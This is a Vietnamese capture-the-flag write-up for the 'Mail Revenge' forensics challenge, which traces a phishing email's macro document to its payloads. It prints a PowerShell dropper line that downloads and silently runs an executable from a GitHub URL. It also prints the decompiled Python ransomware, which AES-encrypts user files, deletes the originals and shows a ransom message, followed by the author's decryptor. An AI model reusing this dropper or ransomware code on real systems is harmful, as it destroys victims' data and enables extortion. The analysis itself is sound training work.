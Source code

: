 # Mail Revenge

NOTE: BÀI NÀY PHẢI CHẠY TRÊN MÁY ẢO, NẾU KHÔNG CÓ THỂ BAY Ổ ĐĨA NHA

Unzip file zip thì ta được các file như sau

![1703060114124](image/MailRevenge/1703060114124.png)

Mình nhìn thấy có 1 file là ``KCSC Anime Festival Invitation.eml``, mình mở file này thì thu được như sau

![1703060192762](image/MailRevenge/1703060192762.png)

Ta thấy có 1 file zip đính kèm, là ``invitation.zip``, ta tải về thui

Extract file zip này thì ta thu được 1 file .docm, như với những file này, mình sẽ dùng oletools để xử lý

![1703060617610](image/MailRevenge/1703060617610.png)

Nhìn thì thấy có 1 đường link github
``https://raw.githubusercontent.com/yoBDaSMi/ttv/main/drop.bat``

Ta truy cập thì có 1 đoạn code như sau

```
@echo off
powershell.exe -NoProfile -ExecutionPolicy -Command "Invoke-WebRequest -Uri 'https://github.com/yoBDaSMi/ttv/raw/main/tongtien.exe' -OutFile 'tongtien.exe'; Start-Process -FilePath 'tongtien.exe' -Windowstyle Hidden"
```

Ta lại thấy 1 link tải 1 file tongtien.exe, ta dùng Detect It Easy thì thấy complie bằng python, thế nên mình dùng pyinstxractor.py để decomplie lại nha

![1703061288656](image/MailRevenge/1703061288656.png)

Giờ lên tool ``https://www.toolnb.com/tools-lang-en/pyc.html`` thì ta thu được quả code như sau

```
# uncompyle6 version 3.5.0
# Python bytecode 3.8 (3413)
# Decompiled from: Python 3.7.2 (default, Dec 29 2018, 06:19:36) 
# [GCC 7.3.0]
# Embedded file name: tongtien.py
import requests, re
from hashlib import sha256, md5
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
from os import remove, getcwd, listdir
import ctypes
list_extensions = [
 '.txt', '.png', '.pdf', '.bmp', '.jpg', '.docx', '.xlsx', '.rtf']

def encrypt(key, iv, plaintext):
    key = bytes.fromhex(key)
    iv = bytes.fromhex(iv)
    cipher = AES.new(key, AES.MODE_CBC, iv)
    ct = cipher.encrypt(pad(plaintext, 16))
    return iv + ct


def readFile(cd):
    for file in listdir(cd):
        if file.endswith(tuple(list_extensions)):
            f = open(file, 'rb').read()
            c = encrypt(key, iv, f)
            f1 = open(file + '.kcsc', 'wb').write(c)
            remove(file)


def getContent(url):
    response = requests.get(url)
    if response.status_code == 200:
        return response.text
    else:
        return


string1 = 'lmth.su_tuoba/su_tuoba/egap/oi.buhtig.maet-csck//:sptth'[::-1]
string2 = getContent(string1)
l1 = [62, 60, 101, 109, 62, 60, 99, 111, 100, 101, 62, 38, 113, 117, 111, 116, 59, 40, 46, 42, 63, 41, 38, 113, 117, 111, 116, 59, 60, 47, 99, 111, 100, 101, 62, 60, 47, 101, 109, 62, 60, 47, 115, 116, 114, 111, 110, 103]
l2 = [75, 77, 65, 32, 67, 121, 98, 101, 114, 32, 83, 101, 99, 117, 114, 105, 116, 121, 32, 67, 108, 117, 98]
key = ''
if string2 is not None:
    pattern = ''.join((chr(x) for x in l1))
    match = re.search(pattern, string2)
    key = match.group(1)
iv = ''.join((chr(y) for y in l2))
key = sha256(key.encode('utf-8')).hexdigest()
iv = md5(iv.encode('utf-8')).hexdigest()
cd = getcwd()
readFile(cd)
MessageBox = ctypes.windll.user32.MessageBoxW
MessageBox(None, 'Thằng nào có tiền thì nạp vào chuyển cho tao, ít thì 5 quả trứng, nhiều thì 1 tên lửa, anh không thích nói nhiều, anh nói cho chúng mày nghe', 'rANSomwarE', 0)
```

Đọc code thì ta thấy rằng code sẽ chọn những file có extension là ``[
'.txt', '.png', '.pdf', '.bmp', '.jpg', '.docx', '.xlsx', '.rtf']`` thì sẽ mã hóa AES_CBC  với key và iv sẽ là đầu ra của đoạn code này
```
string1 = 'lmth.su_tuoba/su_tuoba/egap/oi.buhtig.maet-csck//:sptth'[::-1]
string2 = getContent(string1)
l1 = [62, 60, 101, 109, 62, 60, 99, 111, 100, 101, 62, 38, 113, 117, 111, 116, 59, 40, 46, 42, 63, 41, 38, 113, 117, 111, 116, 59, 60, 47, 99, 111, 100, 101, 62, 60, 47, 101, 109, 62, 60, 47, 115, 116, 114, 111, 110, 103]
l2 = [75, 77, 65, 32, 67, 121, 98, 101, 114, 32, 83, 101, 99, 117, 114, 105, 116, 121, 32, 67, 108, 117, 98]
key = ''
if string2 is not None:
    pattern = ''.join((chr(x) for x in l1))
    match = re.search(pattern, string2)
    key = match.group(1)
iv = ''.join((chr(y) for y in l2))
key = sha256(key.encode('utf-8')).hexdigest()
iv = md5(iv.encode('utf-8')).hexdigest()
```

Giờ mình sẽ viết hàm decrypt lại nha mọi người
```
from os.path import isfile, join
import requests, re
from hashlib import sha256, md5
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
from os import remove, getcwd, listdir
import ctypes



list_extensions = [
 '.kcsc']


def decrypt(key, iv, ciphertext):
    key = bytes.fromhex(key)
    iv = bytes.fromhex(iv)

    cipher = AES.new(key, AES.MODE_CBC, iv)
    decrypted_data = unpad(cipher.decrypt(ciphertext), 16)

    return decrypted_data

def remove_extension(filename, extension):
    if filename.endswith(extension):
        return filename[:-len(extension)]
    else:
        return filename


def readFile(cd, list_extensions, key, iv):
    for file in listdir(cd):
        if isfile(join(cd, file)) and file.endswith(tuple(list_extensions)):
            file_path = join(cd, file)
            with open(file_path, 'rb') as f:
                encrypted_content = f.read()

            decrypted_content = decrypt(key, iv, encrypted_content)

            new_file_path = join(cd, remove_extension(file, '.kcsc'))
            with open(new_file_path, 'wb') as f:
                f.write(decrypted_content)

            remove(file_path)

def getContent(url):
    response = requests.get(url)
    if response.status_code == 200:
        return response.text
    else:
        return


string1 = 'lmth.su_tuoba/su_tuoba/egap/oi.buhtig.maet-csck//:sptth'[::-1]
string2 = getContent(string1)
l1 = [62, 60, 101, 109, 62, 60, 99, 111, 100, 101, 62, 38, 113, 117, 111, 116, 59, 40, 46, 42, 63, 41, 38, 113, 117, 111, 116, 59, 60, 47, 99, 111, 100, 101, 62, 60, 47, 101, 109, 62, 60, 47, 115, 116, 114, 111, 110, 103]
l2 = [75, 77, 65, 32, 67, 121, 98, 101, 114, 32, 83, 101, 99, 117, 114, 105, 116, 121, 32, 67, 108, 117, 98]
key = ''
if string2 is not None:
    pattern = ''.join((chr(x) for x in l1))
    match = re.search(pattern, string2)
    key = match.group(1)
iv = ''.join((chr(y) for y in l2))
key = sha256(key.encode('utf-8')).hexdigest()
iv = md5(iv.encode('utf-8')).hexdigest()
cd = getcwd()
readFile(cd,list_extensions,key,iv)
```


Chạy code xong thì ta thấy các file đã trở lại bình thường, ta mở file ``document3.pdf``, thì ta thu được như này

![1703063350086](image/MailRevenge/1703063350086.png)

Dùng Google hình ảnh cắt ra rồi dán vào để đỡ phải nhập nha

Mình ban đầu băn khoăn không biết là mật mã gì, thế nên mình đã lên [đây](https://www.dcode.fr/cipher-identifier) để phân tích loại mã hóa

![1703063454939](image/MailRevenge/1703063454939.png)

Mình decode Base85 thì thu được flag

![1703063484423](image/MailRevenge/1703063484423.png)

Ngoài ra có thể sử dụng Magic của Cyberchef để phân tích nha

![1703063521289](image/MailRevenge/1703063521289.png)

**Flag: KCSC{dung_de_bi_mail_phishing_lua_ae_nha}**